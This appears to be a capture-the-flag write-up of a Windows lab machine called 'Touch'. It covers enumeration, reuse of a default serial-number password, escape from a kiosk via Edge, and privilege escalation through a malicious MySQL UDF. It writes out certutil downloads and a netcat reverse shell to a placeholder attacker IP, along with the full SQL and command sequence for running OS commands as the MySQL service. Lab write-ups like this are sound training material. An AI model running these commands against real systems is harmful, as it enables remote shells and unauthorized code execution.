





# Touch

## Enumeration

An initial Nmap scan revealed the following open ports:

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port.

Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 11|2008|7 (88%)
OS CPE: cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7

Aggressive OS guesses: Microsoft Windows 11 21H2 (88%), Microsoft Windows 7 or Windows Server 2008 R2 (85%)

No exact OS matches for host (test conditions non-ideal).

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The most interesting services were:

- **5985/tcp:** HTTP service, potentially exposing a web management interface.
- **3389/tcp:** Remote Desktop Protocol (RDP), which could provide an interactive session if valid credentials were discovered.
- **8443/tcp:** An additional HTTP service worth investigating.

## Initial Access

### 1. Discovering the default password

During the enumeration of the web application running on port 5985, I discovered an interesting comment in the HTML source code:

```html
<!-- The default password is the device serial number included in your DeviceHub packaging. -->
```

This suggested that the device serial number was being used as the default password for authentication.

Further enumeration revealed an API directory containing an endpoint responsible for retrieving the server's status. By inspecting this endpoint, I was able to retrieve a valid device serial number.

Using this serial number as the password, I successfully authenticated to the web application.



### 2. Discovering RDP credentials

After gaining access to the web application, I found credentials stored in plaintext.

These credentials could be reused to establish an RDP connection to the target machine.

### 3. Escaping the Kiosk environment

The target appeared to be configured as a Windows Kiosk, restricting access to the normal desktop environment.

The web application provided functionality to enable or disable the device's scanning feature. After disabling it, an error message appeared containing a URL.

Following this URL opened Microsoft Edge. From there, I was able to use the file-opening dialog (`Ctrl + O`) to interact with the Windows file explorer.

This provided a way to escape the restricted Kiosk environment and access the underlying Windows system.

Using this technique, I was able to launch `cmd.exe` and retrieve the user flag.





### 4. Obtaining a reverse shell

To make the interaction with the target more convenient, I transferred Netcat to the machine using `certutil.exe`.

First, I downloaded the executable from my attacker machine:

```cmd
certutil.exe -urlcache -f http://<ATTACKER_IP>:<PORT>/nc.exe nc.exe
```

Then, I established a reverse shell:

```cmd
nc.exe <ATTACKER_IP> <PORT> -e cmd.exe
```

On the attacker machine, I started a Netcat listener:

```bash
nc -lvnp <PORT>
```

### 5. Discovering MySQL credentials

During further enumeration, I discovered credentials for the MySQL database. The credentials provided access to the database using the `root` account.



## Privilege Escalation

### 1. Enumerating MySQL privileges

After obtaining the MySQL credentials, I connected to the database using the following command:

```cmd
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 -h 127.0.0.1
```

I first checked whether the MySQL `root` account had the `FILE` privilege:

```sql
SELECT user, host, File_priv
FROM mysql.user
WHERE user = 'root';
```

The output was:

```text
user    host       File_priv
root    localhost  Y
```

The `FILE` privilege allows a MySQL account to perform certain file operations on the database server, such as reading files with `LOAD_FILE()` and writing query results using `SELECT ... INTO OUTFILE`, subject to MySQL configuration and operating system permissions.

I also checked the `secure_file_priv` variable:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

The result was:

```text
Variable_name     Value
secure_file_priv  NULL
```

In this configuration, MySQL file import/export operations using these mechanisms are disabled.

However, this does not prevent MySQL from loading User Defined Functions (UDFs) from its plugin directory.

### 2. Identifying the MySQL plugin directory

Next, I identified the directory where MySQL loads its plugins:

```sql
SHOW VARIABLES LIKE 'plugin_dir';
```

The result was:

```text
Variable_name  Value
plugin_dir     C:\\MySQL\\lib\\plugin\\
```

Therefore, the plugin directory was:

```text
C:\MySQL\lib\plugin\
```

I checked its NTFS permissions using `icacls`:

```cmd
icacls C:\MySQL\lib\plugin
```

The output included:

```text
C:\MySQL\lib\plugin
    BUILTIN\Administrators:(I)(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
    BUILTIN\Users:(I)(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(I)(M)
    NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
```

The important entry was:

```text
NT AUTHORITY\Authenticated Users:(I)(M)
```

The `M` permission represents **Modify**, which includes the ability to create, modify, and delete files, as well as read and execute them.

Since my current Windows session belonged to the `Authenticated Users` group, I could write files into the MySQL plugin directory.

This was particularly interesting because MySQL loads its UDF libraries from this location.

### 3. Understanding the privilege escalation vector: MySQL UDFs

MySQL supports User Defined Functions (UDFs), which allow additional functions to be implemented in external shared libraries.

On Windows, these libraries are DLL files.

One particularly interesting example is `lib_mysqludf_sys`, which provides functions for interacting with the underlying operating system, including executing system commands.

The important security implication is that **UDFs execute within the security context of the MySQL server process (`mysqld.exe`)**, rather than the context of the MySQL client or the account executing the SQL query.

Consequently, if an attacker can:

1. Authenticate to MySQL with sufficient privileges to register a UDF.
2. Write a compatible DLL into the MySQL plugin directory.
3. Load that DLL as a UDF.

They may be able to execute operating system commands with the privileges of the Windows account running the MySQL service.

In this case, the combination of MySQL administrative access and writable plugin directory permissions provided the necessary conditions to investigate this technique.

### 4. Loading a malicious UDF

I used the `lib_mysqludf_sys_64.dll` library included with Metasploit:

```text
/usr/share/metasploit-framework/data/exploits/mysql/
```

First, I transferred the DLL from my attacker machine using `certutil.exe`:

```cmd
certutil.exe -urlcache -split -f http://<ATTACKER_IP>/lib_mysqludf_sys_64.dll .
```

Next, I copied it into the MySQL plugin directory:

```powershell
Copy-Item -Path "lib_mysqludf_sys_64.dll" -Destination "C:\MySQL\lib\plugin"
```

With the DLL in place, I connected to MySQL and registered the UDF:

```cmd
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 -h 127.0.0.1 -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';"
```

This statement registers the `sys_eval` function, allowing SQL queries to invoke the functionality implemented in the external DLL.

### 5. Executing commands as the MySQL service account

Once the UDF was registered, I could execute Windows commands directly through MySQL.

To verify whether the MySQL service context had access to the Administrator's root flag, I executed:

```cmd
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 -h 127.0.0.1 -e "SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');"
```

The command successfully returned the contents of `root.txt`.

This confirmed that the MySQL server process had sufficient Windows privileges to access the Administrator user's desktop flag.

The distinction is important: MySQL's `root` account does not automatically grant Windows Administrator privileges. The escalation was possible because the UDF executed commands using the Windows security context of the MySQL service.

## Root Flag




